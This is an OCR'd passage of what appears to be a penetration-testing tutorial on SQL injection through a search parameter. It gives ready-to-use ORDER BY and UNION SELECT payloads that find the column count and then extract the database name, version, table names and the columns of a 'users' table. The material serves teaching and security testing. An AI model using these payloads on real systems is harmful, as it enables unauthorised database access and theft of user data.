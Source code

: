 If it returns an error, then we know its vulnerable. Our next step is to determine the number of columns starting from running a normal query on the search box to get an idea. Finding the number of columns:

```
Sql.php?search=test’ ORDER BY 1-- - 
```

or

```
Sql.php?search=' ORDER BY 1--
```

We keep incrementing the number until we hit an error which indicates the number of columns. Then we search for something similar to that below:

```
Sql.php?search=pentesting’ union select 1,1,1,1,1,1,1#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,1,1,1,1,1,1 from information_schema.tables where 1=0 or 1=1-- '
```

We continue adding ‘1’s until we don’t receive any error from the page. Only then we know how many columns by counting the ‘1’s. Then we try to find the database name, table names, columns of target table

```
Sql.php?search=pentesting’ union select 1,database(),@@version,1,1,1,1#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,database(),@@version,1,1,1,1 from information_schema.tables where 1=0 or 1=1-- '
```

```
Sql.php?search=pentesting’ union select 1,table_name,1,1,1,1,1 from information_schema.tables#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,table_name,1,1,1,1,1 from information_schema.tables where 1=0 or 1=1-- '
```

```
Sql.php?search=pentesting’ union select 1,column_name,1,1,1,1,1 from information_schema.columns where table_name=’users’#
```

Or

```
Sql.php?search =' and 1 = 0 union all select 1,column_name,1,1,1,1,1 from information_schema.columns where table_name = 'users'-- '
```
